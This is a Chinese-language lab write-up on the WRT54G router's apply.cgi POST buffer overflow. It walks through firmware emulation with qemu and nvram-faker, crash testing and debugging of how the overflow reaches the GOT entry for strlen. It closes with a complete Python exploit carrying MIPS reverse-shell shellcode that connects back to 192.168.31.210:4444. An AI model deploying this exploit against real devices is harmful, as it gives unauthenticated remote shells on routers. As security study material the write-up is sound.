


# 一：固件分析
## 固件下载
```
http://download.pchome.net/driver/network/route/wireless/down-129948-2.html
```
## 漏洞描述
从漏洞存在WRT54G路由器Web服务器程序HTTPD的apply.cgi处理脚本中，由于对发送POST请求没有设置足够的边界和内容长度的价差，当未经认证的远程攻击者向路由器的apply.cgi发送内容超过10000个字节的POST请求的时候就会导致缓冲区的溢出。

## 修复环境
#### 问题描述
 当尝试使用qemu模拟执行文件httpd的时候，发现会报错```/dev/nvram No such file or directory ```，根据书中描述，当运行web服务器的时候需要从硬件```/dev/nvram```中获取配置信息，而模拟器并不能模拟硬件，所以最终由于找不到配置报错。nvram通过调用库libnvram中的函数nvram_get()来获取配置信息，所以我们需要通过劫持库libnvram中的这个函数，同时为了方便调试以及让程序成功运行，还需要劫持fork函数和get_mac_from_ip。
#### 修复NVRAM
我们使用nvram-faker来修复NVRAM，其大致原理就是其中有写好的相关函数，我们可以向其中添加需要劫持的函数，之后将其编译生成动态库文件，使用qemu进行模拟的时候通过设置LD_PRELOAD来劫持函数调用。
```
//下载nvram-faker
git clone https://github.com/zcutlip/nvram-faker.git
```
下载完整之后，可以发现其中就有用来劫持libnvram中函数的文件，```nvram-faker.c```查看其内容，其中就包含nvram_get函数，所以我们只要添加其他的要劫持的两个函数即可。
```
int fork(void)
{
        return 0;

}

char*get_mac_from_ip(const char*ip)
{

        char mac[]="00:50:56:c0:00:08";
        char* rmac=strdup(mac);
        return rmac;

}
----已经存在----
char *nvram_get(const char *key)
{
    int i;
    int found=0;
    char *value;
    char *ret;
    for(i=0;i<kv_count;i+=2)
    {
        if(strcmp(key,key_value_pairs[i]) == 0)
        {
            LOG_PRINTF("%s=%s\n",key,key_value_pairs[i+1]);
            found = 1;
            value=key_value_pairs[i+1];
            break;
        }
    }

    ret = NULL;
    if(!found)
    {
            LOG_PRINTF( RED_ON"%s=Unknown\n"RED_OFF,key);
    }else
    {

            ret=strdup(value);
    }
    return ret;
}
```
下面需要修改nvram-faker.h，需要将函数进行声明一下，向其中添加如下行即可
```
char *nvram_get(const char *key);        //已经存在
char* get_mac_from_ip(const char*ip);
int fork(void);
```
全部修改完成之后，开始对其进行编译，在nvram-faker的目录下有两个编译脚本，分别是buildmips.sh用来编译大端文件，buildmipsel.sh用来编译小端文件，httpd文件是小端机格式，所以我们使用小端编译脚本进行编译。打开脚本可以发现其先获取了buildroot中的一些编译文件，所以如果发现找不到一些文件的时候，可以将buildroot大小端编译文件所在目录添加到PATH环境变量中。
```
sh buildmipsel.sh
```
编译成功之后会在其目录下生成一个```libnvram-faker.so```的动态库文件，将libnvram-faker.so和同目录下的nvram.ini复制到WRT54G跟文件系统中即可，另外由于在编译libnvram-faker.so的时候是非静态编译，所以我们需要将共享库文件libgcc_s.so.1,这个库文件也是在编译器所在目录下。例如我的路径：
```
/usr/local/sbin/mipsel_gcc/output/host/mipsel-buildroot-linux-uclibc/lib/libgcc_s.so.1
```
#### 修复HTTPD的执行环境
HTTPD在运行时需要对/var目录下的文件进行操作，而这些文件是在linux启动的过程中才会产生的，因此我们使用如下脚本生成一些文件供其操作：
```
#prepare.sh
rm var
mkdir var
mkdir ./var/run
mkdir ./var/tmp
touch ./var/run/lock
touch ./var/run/crod.pid
touch httpd.pid

```
#### run_cgi脚本
```
#!/bin/bash
DEBUG="$1"
LEN=$(echo "$DEBUG"|wc -c)
#usage:sh run_cgi.sh debug #debug mode
#sh run_cgi.sh #run mode
cp $(which qemu-mipsel-static) ./qemu-mipsel      #注意这里依然使用的是静态编译的模拟器
if ["$LEN" -eq 1]
then
        echo "EXECUTE MODE!\n"
        chroot ./ ./qemu-mipsel -E LD_PRELOAD="/libnvram-faker.so" ./usr/sbin/httpd             #LD_PRELOAD实现劫持
else
        echo "DEBUG MODE!\n"
        chroot ./ ./qemu-mipsel -E LD_PRELOAD="/libnvram-faker.so" -g 1234 ./usr/sbin/httpd     
rm qemu-mipsel
fi
```
# 二：漏洞成因分析
### 运行prepare.sh
### 准备测试脚本文件(初版wrt54g_test.py)
```
import sys
import urllib2
try:
    target=sys.argv[1]
except:
    print "usage:%s <target>" % sys.argv[0]
    sys.exit(1)
url="http://%s/apply.cgi" % target
buf="\x42"*10000+"\x41"*0x4000
req=urllib2.Request(url,buf)
print urllib2.urlopen(req).read() 

```
### 以debug的方式运行程序，等待调试
```
run_cgi.sh debug    

```
### 使用IDA进行附加调试,附加之后直接运行即可，等待接收POST数据。



### 在实体机（windows）执行wrt54g_test.py
```
.\wrt54g_test.py 192.168.36.136 //后面的ip地址是我的虚拟机地址，也就是需要传入的参数target
```

可以看到程序在函数do_apply_post中发生崩溃，崩溃处是因为程序想要将零存储在0x4141a851,但是由于此地址是存在于.text段的，所以禁止写入，导致异常出现。
通过对函数wfread的静态分析以及动态调试可知其参数如下：
```
参数一：post_buf用来存放读取数据的缓冲区
参数二：读取单位1个字节
参数三：读取的长度，可控
参数四：输入流句柄
```
其实就是fread函数的参数，通过ida可知post_buf其实是一个全局变量，ida也有明确的标出，分析其其实地址和终止地址可知其大小为0x2710（10000）个字节，也就是当我们的POST参数长度超过10000个字节的时候就可以让缓冲区溢出了。

#### 根据书中的描述可知其是想覆盖srtlen函数的地址从而让其执行准备好的shellcode,但是根据使用书中最后的测试文件，但是并没有将strlen函数覆盖，另外对于书中268页所述"只要填充0x2f32(0x1000D7A0-0x10001AD8)字节数据就可以将原来的strlen调用位置填充为任意地址"不以为然，这里需要解释一下，地址0x1000D7A0是strlen函数的地址，0x10001AD8是post_buf首地址，用来接收POST参数的。让我们再来看看崩溃位置代码调用（动态调试的时候）：
```
.text:004112B8 21 20 40 02                   move    $a0, $s2
.text:004112BC 00 00 00 00                   nop
.text:004112C0 6C 83 81 8F                   la      $at, post_buf
.text:004112C4 00 00 00 00                   nop
.text:004112C8 21 08 22 00                   addu    $at, $v0
.text:004112CC 00 00 20 A0                   sb      $zero, 0($at)
.text:004112D0 DC 80 99 8F                   la      $t9, 0x7F4FF310   //通过验证0x7F4FF310确实是strlen函数的地址，那么这个地址是存在那里的？
.text:004112D4 00 00 00 00                   nop
.text:004112D8 09 F8 20 03                   jalr    $t9 ; strlen
```
通过一番查找，最终发现0x7F4FF310这个要赋值给$t9的地址其实是存放在.got段中的，书中最后的测试文件wrt54g_test.py覆盖的其实是这里，并不是地址1000D7A0，通过上网查找.got段有点类似于导入表/iat表，用来存放导入函数的地址，因此我们只要从.data段（post_buf）覆盖到.got段就行了。将原本存放strlen函数地址的位置替换成shellcode的首地址即可，这样$t9就是shellcode的地址了！
#### 最终的shllcode
```
import sys
import struct,socket
import urllib2
def makepayload(host,port):
    print '[*]prepare shellcode'
    hosts=struct.unpack('<cccc',struct.pack('<L',host))
    ports=struct.unpack('<cccc',struct.pack('<L',port))
    mipselshell ="\xfa\xff\x0f\x24"
    mipselshell +="\x27\x78\xe0\x01"
    mipselshell +="\xfd\xff\xe4\x21"
    mipselshell +="\xfd\xff\xe5\x21"
    mipselshell +="\xff\xff\x06\x28"
    mipselshell +="\x57\x10\x02\x24"
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall 0
    mipselshell += "\xFF\xFF\xA2\xAF"                                     # sw      $v0, var_1($sp)
    mipselshell += "\xFF\xFF\xA4\x8F"                                     # lw      $a0, var_1($sp)
    mipselshell += "\xFD\xFF\x0F\x34"                                     # li      $t7, 0xFFFD
    mipselshell += "\x27\x78\xE0\x01"                                     # nor     $t7, $zero
    mipselshell += "\xE0\xFF\xAF\xAF"                                     # sw      $t7, var_20($sp)
    mipselshell += struct.pack('2c',ports[1],ports[0])+"\x0E\x3C"
    mipselshell += struct.pack('2c',ports[1],ports[0])+"\xCE\x35"         # li      $t6, ports
    mipselshell += "\xE4\xFF\xAE\xAF"                                     # sw      $t6, var_1C($sp)
    mipselshell += struct.pack('2c',hosts[1],hosts[0])+"\x0E\x3C"         # li      $t6, host[0]+host[1]
    mipselshell += struct.pack('2c',hosts[3],hosts[2])+"\xCE\x35"         # li      $t6, host[2]+host[3]
    mipselshell += "\xE6\xFF\xAE\xAF"                                     # sw      $t6, var_1C+2($sp)
    mipselshell += "\xE2\xFF\xA5\x27"                                     # addiu   $a1, $sp, var_20+2
    mipselshell += "\xEF\xFF\x0C\x24"                                     # li      $t4, 0xFFFFFFEF
    mipselshell += "\x27\x30\x80\x01"                                     # nor     $a2, $t4, $zero
    mipselshell += "\x4A\x10\x02\x24"                                     # li      $v0, 0x104A
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall 0
    mipselshell += "\xFD\xFF\x11\x24"                                     # li      $s1, 0xFFFFFFFD
    mipselshell += "\x27\x88\x20\x02"                                     # nor     $s1, $zero
    mipselshell += "\xFF\xFF\xA4\x8F"                                     # lw      $a0, var_1($sp)
    mipselshell += "\x25\x28\x20\x02"                                     # move    $a1, $s1
    mipselshell += "\xDF\x0F\x02\x24"                                     # li      $v0, 0xFDF
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall 0
    mipselshell += "\xFF\xFF\x10\x24"                                     # li      $s0, 0xFFFFFFFF
    mipselshell += "\xFF\xFF\x31\x22"                                     # addi    $s1, -1
    mipselshell += "\xFA\xFF\x30\x16"                                     # bne     $s1, $s0, dup2_loop
    mipselshell += "\xFF\xFF\x06\x28"                                     # slti    $a2, $zero, -1
    mipselshell += "\x2F\x2F\x0F\x3C"                                     
    mipselshell += "\x69\x62\xEF\x35"                                     # li      $t7, 0x2F2F6269
    mipselshell += "\xEC\xFF\xAF\xAF"                                     # sw      $t7, var_14($sp)
    mipselshell += "\x2F\x6E\x0E\x3C"                                     
    mipselshell += "\x68\x73\xCE\x35"                                     # li      $t6, 0x6E2F7368
    mipselshell += "\xF0\xFF\xAE\xAF"                                     # sw      $t6, var_10($sp)
    mipselshell += "\xF4\xFF\xA0\xAF"                                     # sw      $zero, var_C($sp)
    mipselshell += "\xEC\xFF\xA4\x27"                                     # addiu   $a0, $sp, var_14
    mipselshell += "\xF8\xFF\xA4\xAF"                                     # sw      $a0, var_8($sp)
    mipselshell += "\xFC\xFF\xA0\xAF"                                     # sw      $zero, -4($sp)
    mipselshell += "\xF8\xFF\xA5\x27"                                     # addiu   $a1, $sp, var_8
    mipselshell += "\xAB\x0F\x02\x24"                                     # li      $v0, 0xFAB
    mipselshell += "\x0C\x00\x00\x00"                                     # syscall
    return mipselshell

try:
    target=sys.argv[1]
except:
    print "usage:%s <target>" % sys.argv[0]
    sys.exit(1)
url="http://%s/apply.cgi" % target

sip='192.168.31.210'
sport=4444
DateSegSize=0x4000
host=socket.ntohl(struct.unpack('<I',socket.inet_aton(sip))[0])
payload=makepayload(host,sport)
addr=struct.pack("<L",0x10001ad8)
buf="\x00"*(10000-len(payload))+payload+addr*(DateSegSize/4)
req=urllib2.Request(url,buf)
print urllib2.urlopen(req).read() 

```